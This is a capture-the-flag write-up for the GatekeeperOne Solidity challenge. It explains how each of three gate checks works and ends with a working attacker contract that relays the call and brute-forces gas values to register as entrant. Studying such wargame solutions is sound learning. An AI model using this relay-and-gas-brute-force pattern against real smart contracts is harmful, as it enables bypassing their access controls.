

## Challenge
### Description
Make it past the gatekeeper and register as an entrant to pass this level.
Things that might help:
- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [Units and Global Variables](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [External Function Calls](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## Background

---

`msg.sender` is the address that directly called the current function, while `tx.origin` is the EOA address that originally started the transaction.
Suppose an EOA calls contract A, and contract A calls contract B. From contract B's perspective, `msg.sender` is contract A and `tx.origin` is the EOA that first sent the transaction. By inserting an attacker contract in the middle, you can satisfy the `msg.sender != tx.origin` condition.

---

`gasleft()` returns the amount of gas remaining in the current call stack frame.
This challenge requires `gasleft() % 8191 == 0`. The catch is that, before `gasleft()` is called inside `enter`, gas is already consumed by the function call cost, calldata processing, modifier entry cost, and so on. So the gas value passed from outside and the gas value observed in `gateTwo` are not the same.
You could compute the exact offset, but since the only condition is a single modulo $8191$, you can also just try gas values from $0$ to $8190$. Somewhere in that range the remainder will match once.

---

Converting a `uintN` to a smaller `uintM` keeps only the lower M bits. For example, converting a `uint64` value to `uint32` keeps only the lower 32 bits, and converting it to `uint16` keeps only the lower 16 bits.
In this challenge the `bytes8` key is interpreted numerically as `uint64(_gateKey)` and then truncated to `uint32` and `uint16`. In other words, `gateThree` compares the high and low bytes of an 8-byte key.
## Code analysis

---

`gateOne` is below.
```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
If you call `enter` directly from an EOA, both `msg.sender` and `tx.origin` become your EOA, so it fails.
If you call `attack()` on an attacker contract and call `GatekeeperOne.enter()` from inside it, then from the target contract's perspective `msg.sender` is the attacker contract. `tx.origin` is still your EOA, so `gateOne` passes.

---

`gateTwo` is a gas condition.
```solidity
modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
}
```
`gateTwo` checks whether `gasleft()` is a multiple of $8191$.
When using a low-level `call` from the attacker contract, you can specify the gas forwarded to the target call with `{gas: ...}`. Since a certain amount of gas has already been consumed by the time `gateTwo` runs, add a sufficient base amount like `i + 8191 * 3` to `i` and sweep through all $8191$ remainders.

---

The last part is the `bytes8` key condition.
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
}
```
Think of the key as an 8-byte value of the form `0xHHHHHHHHMMMMLLLL`.
The first condition is `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`. The lower 4 bytes must equal the lower 2 bytes, so the middle 2 bytes `MMMM` must be `0000`.
The second condition is `uint32(uint64(_gateKey)) != uint64(_gateKey)`. The lower 4 bytes must differ from the full 8 bytes, so the upper 4 bytes `HHHHHHHH` must not be `00000000`.
The third condition is `uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))`. The lower 4 bytes of the key must equal `0x0000` + the lower 2 bytes of `tx.origin`.
If my `tx.origin` is `0x285ac9F8881D867556fCf6C16F26e3629F86C971`, the lower 2 bytes are `0xC971`. So the key takes the following form.
```solidity
0x????????0000C971
```
Here `????????` just needs to not be `00000000`. So `0x100000000000C971` can be used.
## Solution
`gateOne` is passed by calling through an attacker contract. `gateTwo` is handled by brute-forcing the gas value of the low-level `call` across the $8191$-wide range. `gateThree` uses the lower 2 bytes of `tx.origin` to build a `bytes8` key of the form `0x100000000000C971`.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    bytes8 gatekey = 0x100000000000C971;
    address public target;

    constructor(address _addr) {
        target = _addr;
    }

    function attack() public {
        for (uint i = 0; i < 8191; i++) {
            (bool ok, ) = target.call{gas: i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)", gatekey));
            if (ok) {
                break;
            }
        }
    }
}
```

